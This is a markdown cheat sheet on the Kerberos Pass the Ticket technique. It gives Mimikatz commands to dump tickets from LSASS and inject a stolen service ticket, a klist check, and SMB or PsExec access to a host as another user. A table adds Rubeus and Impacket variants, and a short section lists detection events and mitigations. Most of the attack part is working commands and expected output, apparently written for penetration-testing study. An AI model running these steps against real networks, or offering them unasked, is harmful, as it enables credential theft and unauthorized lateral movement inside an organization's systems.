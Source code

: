 # **Pass the Ticket (PtT)**  
*Steal and reuse Kerberos TGS tickets for lateral movement.*  

---

#### **Conditions for Success**  
1. **Valid Kerberos TGS Ticket**:  
   - A **service ticket** (TGS) for the target service (e.g., `cifs/web04`) must exist in memory.  
2. **Access to LSASS**:  
   - Requires **local admin rights** to dump tickets from LSASS (if stealing from another user).  
3. **No Admin Needed for Injection**:  
   - Injecting tickets into your **own session** does **not** require admin privileges.  

---

### **Steps & Examples**  

#### **1. Dump Kerberos Tickets**  
*Use Mimikatz to export all tickets from memory:*  
```powershell
privilege::debug           # Elevate to DEBUG privileges
sekurlsa::tickets /export  # Export all TGT/TGS to .kirbi files
```  
**Output**: Tickets saved as `.kirbi` files (e.g., `[0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi`).  

---

#### **2. Inject the Ticket**  
*Load the stolen TGS into your session:*  
```powershell
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```  
**Result**: Ticket is cached in memory for the current session.  

---

#### **3. Verify Tickets**  
```powershell
klist  # List cached tickets
```  
**Expected Output**:  
```plaintext
#0> Client: dave @ CORP.COM  
    Server: cifs/web04 @ CORP.COM  
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96  
```  

---

#### **4. Access Restricted Resources**  
```powershell
ls \\web04\backup  # Access SMB share
# OR
.\PsExec.exe \\web04 cmd.exe  # Execute commands
```  

---

### **Tools & Commands**  
| **Tool**       | **Command**                                                                 |  
|-----------------|-----------------------------------------------------------------------------|  
| **Mimikatz**   | `sekurlsa::tickets /export` + `kerberos::ptt <TICKET.kirbi>`                |  
| **Rubeus**     | `Rubeus.exe asktgs /ticket:<BASE64_TICKET> /service:cifs/web04 /ptt`        |  
| **Impacket**   | `export KRB5CCNAME=<TICKET.ccache>` + use `-k` in tools (e.g., `smbexec.py`)|  

---

### **Key Notes**  
- **Why `whoami` Doesn’t Change**:  
  - `whoami` reflects the **process token** (original user), but Kerberos tickets are stored in the **logon session**.  
- **Stealth**:  
  - PtT uses **Kerberos**, which is less suspicious than NTLM.  
- **Ticket Lifespan**:  
  - Tickets expire (default: **10 hours**). Check `klist` for validity.  

---

### **Detection & Mitigation**  
**Detection**:  
- **Event ID 4769**: Kerberos service ticket requests from unexpected users.  
- **Event ID 4624**: Logon Type 3 (Network) with TGS usage.  

**Mitigation**:  
- Restrict **local admin privileges** to limit LSASS dumping.  
- Enforce **AES encryption** (disable RC4).  
- Monitor for `sekurlsa::tickets` (Mimikatz) or `asktgs` (Rubeus) activity.  

---

### **Example Workflow**  
1. **Dump tickets** from a compromised machine where `dave` is logged in.  
2. **Inject** `dave@cifs-web04.kirbi` into your session.  
3. Access `\\web04\backup` as `dave` without knowing their password!  

---

### **References**  
- [Mimikatz Guide](https://github.com/gentilkiwi/mimikatz/wiki)  
- [Rubeus Documentation](https://github.com/GhostPack/Rubeus)  
